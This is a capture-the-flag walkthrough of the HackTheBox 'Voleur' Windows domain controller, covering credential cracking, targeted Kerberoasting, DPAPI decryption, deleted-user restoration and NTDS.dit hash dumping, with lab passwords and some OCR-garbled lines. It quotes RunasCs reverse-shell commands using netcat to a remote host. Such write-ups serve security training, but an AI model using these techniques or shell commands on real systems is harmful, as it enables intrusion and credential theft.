> Writeup · part of **[htb-walkthroughs](../README.md)** · [⬇ original PDF](Voleur.pdf)

---

# **<u>VOLEUR MACHINE - HACKTHEBOX - SEASON 8</u>** 

## **RATE: MEDIUM** 

Initial credentials: “ **ryan.naylor:HollowOct31Nyt** ” 

Nmap output: This confirms our target is a windows machine which is a Domain Controller. 



Confirming if the credentials are working, it appeared we are dealing with a DC though with NTLM auth disabled as per the error interpretation in the image below 



**NTLM: FALSE** → Implying that all auth is through kerberos 



## **<u>SMB SHARE ENUMERATION</u>** 

We have READ permission on share IT 



Since we are dealing with a DC that strictly uses kerberos for authentication, we will encounter a couple of errors if we do not set our environment right. E.g 



So we edit the /etc/krb5.conf file to set up the realm. 



Now we are quite good to go 



### **USER ENUMERATION AND ROLE DESCRIPTION** 



Enumerating the IT share 

//10.10.11.76/IT/First-Line Support/Access_Review.xlsx 



Using the nxc tool with the option –get-file, we are able to download and view the content of the Access_Review locally. 



The file is password encrypted 



Using **office2john tool** , we can convert the .xlsx file to hash format that can be cracked by john 



### Cracked password → **football1** 



File content 



Found working credentials for a service account: **svc_ldap || M1XyC9pW7qT5Vn** 



## **BLOODHOUND DUMP** 



With user **svc_ldap** , we can laterally move within the network to gain further foothold 



### Abusing the **WriteSPN** permission, we are able to retrieve the tgt hash for two users: **lacey.miller & svc_winrm** Han/MTB/voteur/emp/eargetedh —otemiaberetpy -d ane ccvasie.ste 

Loaded the hashes into a file and used hashcat to crack and retrieve the cleartext password 





### **svc_winrm:AFireInsidedeOzarctica980219afi** 



We can access the target via winrm using the retrieved credentials 



## **<u>USER FLAG</u>** 



## **<u>PRIVILEGE ESCALATION TO ROOT</u>** 

<u>https://github.com/Shadrack2023/RunasCs</u> 

_RunasCs_ is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials. ``` 

Examples: 

Run a command as a local user 

RunasCs.exe user1 password1 "cmd /c whoami /all" 

Run a command as a domain user and logon type as NetworkCleartext (8) 

RunasCs.exe user1 password1 "cmd /c whoami /all" -d domain -l 8 

Run a background process as a local user, 

RunasCs.exe user1 password1 "C:\tmp\nc.exe 10.10.10.10 4444 -e cmd.exe" -t 0 Redirect stdin, stdout and stderr of the specified command to a remote host 

**RunasCs.exe user1 password1 cmd.exe -r 10.10.10.10:4444** Run a command simulating the /netonly flag of runas.exe RunasCs.exe user1 password1 "cmd /c whoami /all" -l 9 Run a command as an Administrator bypassing UAC RunasCs.exe adm1 password1 "cmd /c whoami /priv" --bypass-uac Run a command as an Administrator through remote impersonation RunasCs.exe adm1 password1 "cmd /c echo admin > C:\Windows\admin" -l 8 

--remote-impersonation ``` 

We upload the binary to the target Download it from: <u>https://github.com/antonioCoco/RunasCs/releases</u> 



Got a reverse shell as user svc_ldap Ci\Users rm\Docunents> .\RunasCs.ene sve. 

Remember from bloodhound output, user **svc_ldap** belongs to the **Restore_users** group. So well try and restore all the deleted users e.g todd.wolfe 

Command: **Get-ADObject -Filter 'SamAccountName -eq "todd.wolfe"' -IncludeDeletedObjects** 



### User **todd.wolfe** is restored successfully 



### We now own user todd.wolfe 



### Spidering IT share using user todd.wolfe, 





## **<u>DPAPI ATTACK</u>** 

I retrieved the credential blob and masterkey 



Retrieved the Decrypted key of the credential blob. 

‘ **0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c 4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83** ’ 



Retrieved credentials for user **jeremy.combs:qT3V9pLXyN7W4m** /oat/ ~{MTB-Ttcredential fileLabs.masterkey reports/MIB/Voveur/-Key @xd263254741dse0a0tef2726de2429926841cb832006145255fes2907tmp f9cF879410c9429¢77c4FdabsbF93a94260ce2BEa94fb9220415969Ccae6FSS0ES0REI epacket. v0.12.0.dev0+20250401,172759.252095f1 - Copyright Fortra, LLC and its affiliated companies 

### Confirmed the credentials are working 



### User Jeremy has read permission on IT share. 



Enumerated the SMB shares using the **<u>smbclient.py/</u> impacket-smbclient tool** , as user jeremy 



Found and downloaded **id_rsa** keys which we can use for ssh login to the target machine 



### Text note for jeremy.combs from admin. 



Id_rsa 



Using nmap, we can check what port can allow us to access the target via ssh. 



After trying out all the users with whom this secret key was for, I found out user **svc_backup** could ssh into the target machine using the initially retrieved private keys. 



Since this is a windows machine and Domain Controller, we’ll target the ntds.dit which since we are connected via ssh(WSL) can access it under **/mnt/c/Windows/NTDS/NTDS.DIT** 







After several minutes of enumeration, I finally found a backuped up **ntds.dit** 



Now we have the ntds.dit locally. 



We’ll proceed and have the **SYSTEM** also locally 



### Perfect 



### Now lets retrieve the ntlm hashes of the domain network locally from our machine 



### PWN3D!!! 



### Lets connect via winrm and grab the root flag. 



## **<u>ROOT FLAG</u>** 


